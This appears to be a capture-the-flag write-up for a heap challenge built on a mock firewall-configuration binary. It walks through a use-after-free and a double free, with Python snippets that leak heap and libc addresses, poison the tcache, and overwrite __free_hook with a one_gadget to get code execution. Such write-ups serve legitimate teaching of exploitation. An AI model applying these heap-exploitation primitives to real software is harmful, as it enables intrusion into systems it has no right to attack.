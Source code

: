 This challenge is a heap challenge.
The binary is pretty big, so I will not provide the code.
The binary consists of 5 options:
```
Web Application Firewall Configuration.

1. Add new configuration.
2. Edit configuration.
3. Print configuration.
4. Remove last added configuration.
5. Print all configurations.
6. Exit

```

The add option will create a new configuration, which simply mallocs a configuration struct of size 0x18.
Then it asks the user for `id`, `size`, and a `setting` of size `size`, which it mallocs.
It doesn't initilize any mallocs.

the second option is an edit option, it prompts for `id`, and aloows the user to realloc and change the size+setting of the configuration.
There is an UAF bug here, since it doesn't checks if the struct is free

third option just prints info about a given config. the add option doesn't initilize chunks, so we can leak some heap/libc addresses.

fourth option basiclly just frees a configuration , and its setting. doesn't do any checks (besides idx limits), so a double free is possible.

My idea was pretty simple. I just started leaking data, and moved on from there.
leaking heap is pretty simple, we can just allocate any chunk , free it, and use the print option to print its data.
tcachebins contains `heap fd` in their chunk meta data, so its an easy leak.
```py
	add(1, 1, '1')
	remove()
	heap = print_conf(0)[0] - 0x280
```

Then, in order to leak libc, I used the same approach.
unsortedbins contains libc addresses in their chunk metadata, so we need to add one.
Tcache bins are limited to only 7 chunks, so we can free 7 chunks, then allocate a big chunk (we don't want it to be treated as fastbin), and it will be added to the unsorted bin.

```py
	for i in range(8): #fill tcache, to add a chunk to unsorted bins
		add(1, 0x100, 'a'*8)
	for i in range(8):
		remove()
	libc.address = u64(print_conf(idx)[1].ljust(8, b'\x00')) - 0x3ebca0
  ```
  now we have all the leaks we need. we'll be trying to get an arbitrary write primitive using our uafs.
  First of all , lets empty out all the bins to make everything nicer.
  
  ```py
  #empty out tcache
	add(1, 0x81, 'b'*10)
	for i in range(7):
		add(1, 0x100, 'a'*8) #this will sort one chunk to the smallbin

	add(1, 0x50, 'w' * 0x50)  #we get that smal bin chunk
  ```
  
  Now we will start to understand how we get arb-write primitive.
  first of all, lets trick libc, by allocating a chunk, freeing it into the tcache, and change its fd using the edit command.
  We will change `fd` to a chunk we control. libc will think that there is a free chunk there. then we can fully control its fd, and put it whereever we want to write to.

  ```py
  #trigger write after free, and trick libc to think there is a free list in heap+0xc00
	write_chunk = add(1, 0x50, 'k' * 0x50) 
	remove()
  ```
  this will make our bins look like this:
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/8cb07ebe-70b5-4a45-ae2f-a4a39e90c923)

  then, we'll use the edit, to trick malloc and add our fake fd:
  ```py
  edit(write_chunk, heap + 0xc00, 16, 'b' * 16)
  ```
  
  this will make the bins like this:
 
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/bd5a69be-12a6-452a-93f4-092f063ba8b4)
  
  as you can see, the address `0x1edbc00`, is linked to 2 different bins!

  now, we can use the add option, with size=0x18. this will first malloc a struct, and take the first chunk at 0x1edbbe0. 
  then it will do `malloc(0x18)`, which will return `0x1edbc00`, and will let us control it! remember that `0x1edbc00` is still in the 0x60 tcache bin.
  Now we can basiclly write our fake bk, which will be the address we want to write to. in our case we triggered the `__free_hook`:
  
  ```py
  add(1, 0x18, p64(libc.sym.__free_hook)) 
  ```
  now the bins will look like this:
  ![image](https://github.com/Itay212121/Weekly-CTF/assets/56035342/44787cfc-72fe-497c-94b9-31eb43e92e2a)
  
  now we can just add anything we want of size 0x58, which will delete the head of the tcache bin, and will make it contains just our arbitrary address.
  And then , we can malloc, and get a chunk at this arbitrary address. tcache is pretty shit when it comes to security (it is created to make everything faster, which makes it lack security)
  so malloc doesn't even check if there is a valid chunk at this address, and just give us our arbitrary chunk. then we just write one_gadget address there and win.

  ```py
  
  add(1, 0x18, p64(libc.sym.__free_hook)) #fake_chunk->fd->libc.sym.__free_hook
	add(1, 0x58, 'AAAAAAAA') #remove fake_chunk from tcache
	add(1, 0x58,p64(libc.address + 0x4f432)) #get fake_chunk->fd, which is libc.sym.__free_hook
  ```
  
  then we can just free something, and it will call the `__free_hook`, which is our one_gadget.
  what a fun challenge!
  
  
  
  
  
